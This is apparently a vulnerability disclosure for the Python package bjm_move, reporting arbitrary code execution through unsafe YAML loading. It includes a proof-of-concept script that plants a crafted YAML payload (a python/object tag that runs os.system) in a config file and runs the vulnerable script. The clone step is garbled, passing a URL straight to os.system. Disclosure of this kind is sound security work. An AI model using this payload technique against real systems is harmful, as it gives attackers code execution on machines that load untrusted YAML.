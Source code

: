 # Description

`bjm_move` package is vulnerable to `Arbitary Code Execution` due to insecure yaml desearilization.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

_steps to reproduce:_
```python
import os
os.system('https://github.com/lynchmv/bjm_move')
os.chdir('bjm_move/')

payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
"""
open('db_config.yml','w+').write(payload)
os.system('python3 bjm_db.py')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution

